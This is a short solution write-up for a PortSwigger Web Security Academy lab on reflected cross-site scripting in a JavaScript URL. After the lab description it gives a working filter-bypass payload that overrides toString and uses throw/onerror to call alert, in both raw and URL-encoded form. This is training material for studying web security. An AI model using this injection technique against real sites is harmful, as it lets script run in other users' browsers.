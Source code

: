 # Reflected XSS in a JavaScript URL with some characters blocked

## This lab reflects your input in a JavaScript URL, but all is not as it seems. This initially seems like a trivial challenge; however, the application is blocking some characters in an attempt to prevent [XSS](https://portswigger.net/web-security/cross-site-scripting) attacks.

## To solve the lab, perform a [cross-site scripting](https://portswigger.net/web-security/cross-site-scripting) attack that calls the `alert` function with the string `1337` contained somewhere in the `alert` message.

### HINT:

`https://YOUR-LAB-ID.web-security-academy.net/post?postId=5&'},x=x=>{throw/**/onerror=alert,1337},toString=x,window+'',{x:'`

# `&%27},x=x=>{throw/**/onerror=alert,1337},toString=x,window%2b%27%27,{x:%27`

%27 = '
%2b = +
